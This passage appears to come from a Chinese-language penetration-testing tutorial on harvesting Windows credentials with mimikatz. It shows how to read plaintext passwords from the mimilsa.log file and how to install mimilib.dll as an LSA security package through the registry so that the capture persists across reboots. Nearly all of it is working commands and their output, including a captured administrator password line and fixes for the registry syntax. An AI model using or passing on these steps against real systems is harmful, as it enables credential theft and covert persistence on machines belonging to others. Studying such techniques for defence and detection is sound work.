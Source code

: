注销当前用户重新登录，即可获取明文密码，密码存储在日志文件C:\Windows\system32\mimilsa.log中。

```dos
type C:\Windows\system32\mimilsa.log
```

```test
C:\Users\Administrator>type C:\Windows\system32\mimilsa.log
[00000000:00063a51] DC\Administrator    admin.098
```

### 方法二

将mimikatz中的mimilib.dll 放到系统的C:\Windows\system32目录下（DLL的位数需要与windows位数相同），并将mimilib.dll添加到注册表中，使用此方法即使系统重启，也不会影响到持久化的效果。

```dos
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

```test-dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>copy mimilib.dll %systemroot%\
system32
已复制         1 个文件。

C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u
```

注意：最后一步修改注册表需要在powershell命令行下操作，cmd下可能会报错。

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
错误: 无效语法。
键入 "REG ADD /?" 了解用法信息。
```

```
正确语法是 
λ reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0sc hannel\0wdigest\0tspkg\0pku2u\0mimilib"
值 Security Packages 已存在，要覆盖吗(Yes/No)? yes
操作成功完成。
```

```powershell
PS C:\Users\Administrator> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv
1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
值 Security Packages 已存在，要覆盖吗(Yes/No)? y
操作成功完成。
```
